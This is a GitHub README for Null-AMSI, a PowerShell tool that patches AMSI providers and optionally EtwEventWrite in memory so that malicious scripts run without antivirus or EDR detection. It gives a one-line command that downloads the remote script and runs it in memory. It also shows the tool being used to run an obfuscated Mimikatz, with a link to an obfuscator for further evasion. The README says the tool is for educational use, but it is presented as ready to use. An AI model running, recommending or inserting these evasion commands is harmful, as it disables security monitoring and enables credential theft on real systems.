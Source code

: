 [![Telegram](https://badgen.net/badge/icon/telegram?icon=telegram&label)](https://t.me/MalwareBit)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/BlackShell256/Null-AMSI/blob/main/LICENSE)
[![LinkedIn](https://img.shields.io/static/v1.svg?label=LinkedIn&message=@anibal&logo=linkedin&style=flat&color=blue)](https://www.linkedin.com/in/anibal-5a3870278/)

# Null-AMSI

## Description
The Null-AMS script is a tool that takes advantage of native PowerShell features and .NET functions using reflection, in order to modify the memory of amsi.dll, to disable its malware scanning and be free to execute scripts and malicious code. This tool is for educational use to understand the role of AMSI in protecting against malware and the implications of bypassing these defense mechanisms.

### AMSI
AMSI (Antimalware Scan Interface) is an application programming interface (API) developed by Microsoft that allows Windows applications and services to interact with third-party antivirus and antimalware software to detect and block malicious activity. AMSI was introduced in Windows 10 and is designed to improve security by allowing code, such as scripts, macros, and other potentially dangerous elements, to be scanned for malicious patterns before executing.

![image](https://github.com/user-attachments/assets/fa9ae24f-cbaa-4340-8010-536ad5949d0f)

### Reflection
Reflection in PowerShell refers to the ability to inspect and manipulate data types (such as classes, methods, properties and fields) at runtime, without needing to know their definition at compile time. This functionality is based on the .NET reflection system, which allows scripts and programs to access type and object metadata, make dynamic method calls, and modify properties or fields through reflection.

Amsi patches usually use Add-Type to add .NET types inside PowerShell, this method for AV or EDR is highly detected.
![image](https://github.com/user-attachments/assets/c03ec594-8b45-4af5-93ec-7f699d401619)

To avoid this, Null-AMSI uses reflection and use native functions, with this we can get the address of GetModuleHandle and GetProcAddress, we can use these functions to patch AMSI without alerting AV/EDR.

### Features
- *Native Memory Manipulation*: Null-AMSI uses functions from the “System.Runtime.InteropServices.Marshal” assembly to manipulate memory avoiding the use of ReadProcessMemory or WriteProcessMemory which are highly scrutinized by security measures.
  
- *All in memory*: The tool works in memory, when using "Add-Type" this function compiles the code into a C# dll, at that time your patch can be highly detected by an AV/EDR, this is avoided with reflection and kept in memory with stealth.
  
- *Effective patch bypass*: In contrast to traditional AMSI evasion techniques, which typically patch AmsiScanBuffer (highly flaged and documented) Null-AMSI patches AMSI providers, which guarantees a higher success rate against AV/EDR engines.

- *Multi-Architecture*: Works for both 32-bit and 64-bit PowerShell, to run in any environment, for this it checks the length in bytes of the IntPtr data type.

- *Evasion in memory modification*: By modifying the memory address permissions of AMSI providers and **EtwEventWrite** using the **VirtualProtect** function, **PAGE_EXECUTE_WRITECOPY** protection is employed, an uncommon configuration that favors evasion of security mechanisms. This protection contributes to the patch's effectiveness by allowing memory modifications to be made in a way that is more difficult for security tools to detect.

### ETW Patching
ETW (Event Tracing for Windows) is Microsoft's real-time event tracing and collection infrastructure for logging, monitoring and analyzing operating system and application events in Windows at the Kernel level. In the context of computer security and threat detection, ETW is a very valuable tool for Antivirus (AV) and Endpoint Detection and Response (EDR) solutions, as it provides detailed information about system activities that may be indicative of malicious behavior. Null-AMSI patches EtwEventWrite (optionally) by returning the execution flow to the next instruction.

## Use

To Use Null-AMSI, run the following commands:

With this command we will execute Null-AMSI in memory 
```
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-NullAMSI.ps1)
```
For AMSI patching only
```
Invoke-NullAMSI
```
For AMSI and ETW patching
```
Invoke-NullAMSI -etw
```
To get verbose and more information about the tool
```
Invoke-NullAMSI -v
```

### Usage example
1. Run the Null-AMSI tool, I added verbose flags and ETW patch (optional).
![image](https://github.com/user-attachments/assets/6f5ee3f1-0c93-4d23-9388-57135abd6506)

2. Now we can run Mimikatz with amsi disabled, I used an obfuscated version of Mimikatz ([Mimikatz-Obfuscated](https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-Mimikatz.ps1)) with zlib and base64 to avoid the http detection of my Eset Premium AV.
To obfuscate use: https://github.com/BlackShell256/Null-AMSI/blob/main/NullObfuscate.py (python3 NullObfuscate.py -f Invoke-Mimikatz.ps1 -o Obfuscated-Mimikatz.ps1)
![image](https://github.com/user-attachments/assets/caed0aae-ab4e-4d24-8761-52a03fd1a31f)

### Poc Evasion
[Full Video](https://www.linkedin.com/posts/anibal-5a3870278_evasion-bypass-amsi-activity-7264104326703329280-S8Y9?utm_source=share&utm_medium=member_desktop)
![image](https://github.com/user-attachments/assets/6c832166-92b5-446a-893c-273249cd68a8)

### Poc Evasion 2
[Full Video](https://www.linkedin.com/posts/anibal-5a3870278_evasion-bypass-amsi-activity-7264104326703329280-S8Y9?utm_source=share&utm_medium=member_desktop)
![image](https://github.com/user-attachments/assets/c40466b1-6a05-4941-9530-0520723b1fa3)


## Credit

* Some of the Reflection code I learned from Matt Graeber. [X/Twitter](https://x.com/mattifestation)

* Patch by Maor Korkos [X/Twitter](https://x.com/maorkor)

